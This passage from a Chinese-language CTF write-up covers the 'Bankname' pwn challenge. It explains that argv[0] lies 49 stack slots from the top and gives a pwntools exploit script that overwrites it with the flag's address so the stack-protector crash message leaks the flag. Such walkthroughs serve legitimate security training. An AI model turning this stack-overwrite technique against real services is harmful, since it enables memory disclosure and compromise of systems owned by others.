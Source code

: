 #### 调试

找出栈上argv[0]的位置，在距离栈顶392字节处(49个8字节)，那么我们只要使用flag的地址覆盖49次即可。

![1572486313349](images/icbc-2019/1572486313349.png)

#### exp

```python
from pwn import *
context.binary = './Bankname'

# switches

if len(sys.argv) == 1:
    DEBUG = 1
else:
    DEBUG = 0
# modify this
if DEBUG:
    io = process(['./Bankname'])
else:
    io = remote(sys.argv[1], int(sys.argv[2]))

context(log_level='debug')

# define symbols and offsets here
addr = 0x00000000006010A0
offset = 49


# define exploit function here
def pwn():

    # gdb
    print "pid: " + str(proc.pidof(io))
    raw_input()

    io.recvuntil("Hey!! What's your name ?\n")
    io.sendline(p64(addr) * offset)
    io.interactive()
    return


if __name__ == '__main__':
    pwn()

```
